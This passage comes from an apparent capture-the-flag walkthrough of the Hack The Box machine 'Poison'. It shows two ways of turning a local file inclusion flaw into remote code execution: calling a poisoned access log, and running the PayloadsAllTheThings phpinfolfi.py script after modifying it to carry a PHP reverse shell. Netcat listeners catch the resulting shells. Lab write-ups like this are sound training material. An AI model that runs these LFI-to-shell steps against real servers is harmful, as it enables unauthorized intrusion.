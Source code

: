Now that our reverse shell code is stored in the logs, we can just open up a netcat listener and execute the code by calling the log file on the server!

```bash
- Request -
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1234                                             
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 16068
sh: can't access tty; job control turned off
$ whoami
www
```

## Method 3 - PHPInfo to LFI

There is an exploit available on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/phpinfolfi.py) that could trigger a RCE if a web server has a LFI vulnerability and also showed the PHPInfo webpage. This web server satisfies both the requirement.

Before we can use the exploit, we have to modify a few parameters in the script.

-   Change the `PAYLOAD` to the PHP reverse shell found on `/usr/share/laudanum/php/php-reverse-shell.php`.
-   Change the `LFIREQ` to `GET /browse.php?file=%s HTTP/1.1\r`.
-   Change all occurrences of `[tmp_name] =>` to `[tmp_name] =&gt`.

>   Couldn’t have done this without reading the writeup from this medium [article](https://medium.com/swlh/hack-the-box-poison-writeup-w-o-metasploit-a6acfdf52ac5).

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# python phpinfolfi.py 10.10.10.84 
Don't forget to modify the LFI URL
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 112940
Spawning worker pool (10)...
  10 /  1000
Got it! Shell created in /tmp/g

Woot!  \m/
Shuttin' down...

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1234            
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 47661
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64
 5:32AM  up 16 mins, 1 users, load averages: 0.28, 0.35, 0.27
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
charix     pts/1    10.10.14.2                                5:21AM    11 -cs 
```